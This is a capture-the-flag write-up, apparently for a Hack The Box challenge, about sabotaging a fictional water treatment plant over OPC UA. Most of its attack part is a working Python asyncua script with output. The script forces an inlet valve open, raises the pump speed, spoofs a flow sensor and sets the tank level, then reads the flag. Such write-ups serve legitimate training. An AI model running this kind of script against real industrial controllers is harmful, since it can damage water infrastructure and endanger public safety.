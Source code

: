 Task Force Phoenix has found a flaw in Volnaya’s water treatment plant, its 2:WaterTreatmentPlant object humming via OPC UA, supplying the government’s command center. Sabotage it to flood the complex and disrupt Operation Blackout:  
- Set inlet valve to 100% open,  
- Increase pump speed to 1600 RPM,  
- Spoof flow sensor to 4 L/s,  
- Raise tank water level to 5m

# Solve

First I had to download [opcua-client](https://github.com/FreeOpcUa/opcua-client-gui) and then i tested it by connecting to my instance.

![](Images/Pasted%20image%2020250526143923.png)

We get a bunch of objects. We have to modify for the CTF Challenge

- Set inlet valve to 100% open,  
- Increase pump speed to 1600 RPM,  
- Spoof flow sensor to 4 L/s,  
- Raise tank water level to 5m

So lets try and find the respective objects.


So we found the Inlet valve is set to 75% open at the current moment.

![](Images/Pasted%20image%2020250526144042.png)

The pump speed value is at 1200 RPM

![](Images/Pasted%20image%2020250526144120.png)

The flow rate sensor is showing a dynamic value

![](Images/Pasted%20image%2020250526144153.png)

Then the water tank level is also dynamic as it seems

![](Images/Pasted%20image%2020250526144226.png)

```
ns=2;i=10  # Inlet valve
ns=2;i=6  # Tank Level
ns=2;i=13    # Flow Sensor
ns=2;i=4 # Pump speed
```

We have read write
```
CurrentRead, CurrentWrite
```

I couldn't manually edit quick enough. So I learned how to script the changes from other CTFs.

After setting it I wasn't getting a flag and then I found the SecretLog under maintanence and assumed it would add the flag as a value there once all other values were set.

```
from asyncua import Client
import asyncio

async def set_and_read_secretlog():
    try:
        async with Client(url="opc.tcp://83.136.255.230:49384") as client:
            await client.connect()
            # Set values
            nodes = [
                ("ns=2;i=10", 100.0, "Inlet valve"),  # Inlet valve
                ("ns=2;i=6", 5.0, "Tank level"),      # Tank level
                ("ns=2;i=13", 4.0, "Flow sensor"),    # Flow sensor
                ("ns=2;i=4", 1600.0, "Pump speed")    # Pump speed
            ]
            for node_id, value, name in nodes:
                node = client.get_node(node_id)
                await node.write_value(value)
                print(f"Set {name} ({node_id}) to {value}")

            # Verify values
            for node_id, value, name in nodes:
                node = client.get_node(node_id)
                current_value = await node.read_value()
                print(f"Verified {name} ({node_id}): {current_value}")

            # Read SecretLog node
            secretlog_node = client.get_node("ns=2;i=15")
            secretlog_value = await secretlog_node.read_value()
            print(f"SecretLog (ns=2;i=15): {secretlog_value}")

    except Exception as e:
        print(f"Error: {e}")

asyncio.run(set_and_read_secretlog())
```

Output

```
Set Inlet valve (ns=2;i=10) to 100.0
Set Tank level (ns=2;i=6) to 5.0
Set Flow sensor (ns=2;i=13) to 4.0
Set Pump speed (ns=2;i=4) to 1600.0
Verified Inlet valve (ns=2;i=10): 100.0
Verified Tank level (ns=2;i=6): 5.0
Verified Flow sensor (ns=2;i=13): 4.0
Verified Pump speed (ns=2;i=4): 1600.0
SecretLog (ns=2;i=15): HTB{w4t3r_tr34tm3nt_0v3rfl0w3d}
```